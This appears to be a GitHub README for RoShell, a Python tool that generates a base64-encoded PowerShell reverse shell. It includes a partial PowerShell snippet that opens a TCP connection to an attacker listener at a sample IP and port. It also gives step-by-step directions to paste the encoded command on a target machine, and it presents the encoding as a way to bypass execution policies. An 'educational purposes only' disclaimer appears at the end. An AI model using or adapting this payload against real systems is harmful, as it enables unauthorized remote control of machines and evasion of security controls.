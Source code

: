# RoShell

RoShell is a Python script that generates a base64-encoded PowerShell command to establish a reverse shell connection. The script creates a PowerShell command that connects to a specified IP address and port, executes commands sent from the server, and returns the output.

## Features

- Generates a PowerShell script that connects to a TCP server.
- Executes commands received from the server and sends back the output.
- Handles errors and exceptions gracefully.
- Encodes the PowerShell script in base64 to bypass execution policies.

## Usage

### Prerequisites

- Python 3.x
- A listener on the specified IP and port to receive the reverse shell connection.

### How to Run

1. Clone the repository or download `roshell.py`.

2. Open a terminal and navigate to the directory containing `roshell.py`.

3. Edit the `ps_script` in `roshell.py` to specify your target IP address and port.

4. Run the script:

    ```sh
    python roshell.py
    ```

5. The script will output a base64-encoded PowerShell command. Copy this command.

6. Execute the command on the target machine to establish a reverse shell connection.

### Example

1. Edit `roshell.py` to set your target IP and port:

    ```python
    ps_script = """
    $client = New-Object System.Net.Sockets.TCPClient("192.168.47.137", 8000)
    $stream = $client.GetStream()
    $writer = New-Object System.IO.StreamWriter($stream)
    $reader = New-Object System.IO.StreamReader($stream)
    ...
    """
    ```

2. Run `roshell.py`:

    ```sh
    python roshell.py
    ```

3. Copy the output:

    ```sh
    powershell -EncodedCommand <base64_command>
    ```

4. On the target machine, open a PowerShell prompt and paste the command:

    ```sh
    powershell -EncodedCommand <base64_command>
    ```

5. Your reverse shell connection should now be established.

## License

This project is licensed under the MIT License - see the [LICENSE](LICENSE) file for details.

## Disclaimer

This tool is intended for educational purposes only. Use it responsibly and only on systems you have permission to test. The author is not responsible for any misuse or damage caused by this tool.
